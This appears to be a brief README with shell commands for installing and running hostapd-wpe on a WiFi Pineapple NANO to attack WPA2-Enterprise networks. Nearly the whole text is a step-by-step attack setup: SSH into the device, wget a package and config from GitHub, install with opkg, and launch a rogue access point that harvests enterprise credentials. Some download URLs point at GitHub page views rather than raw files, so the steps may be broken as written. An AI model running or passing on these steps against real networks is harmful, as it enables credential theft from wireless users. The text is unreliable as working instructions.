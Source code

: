 # Hostapd-wpe on the Pineapple NANO for WPA2-Enterprise Attacks
ssh root@IP-OF-PINEAPPLE<br>
cd /tmp<br>
wget https://github.com/metalkey/pineapple-nano-hostapd-wpe/blob/master/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
opkg install ./hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
cd<br>
wget https://github.com/metalkey/pineapple-nano-hostapd-wpe/blob/master/pineapple-hostapd-wpe.conf<br>
hostapd-wpe pineapple-hostapd-wpe.conf<br>
<br>
# Creds
https://github.com/TarlogicSecurity/hostapd-wpe-openwrt/raw/master/packages/ar71xx/generic/hostapd-wpe_2014-06-03.1-1_ar71xx.ipk<br>
https://forums.hak5.org/index.php?/topic/38982-hostapd-wpe/<br>
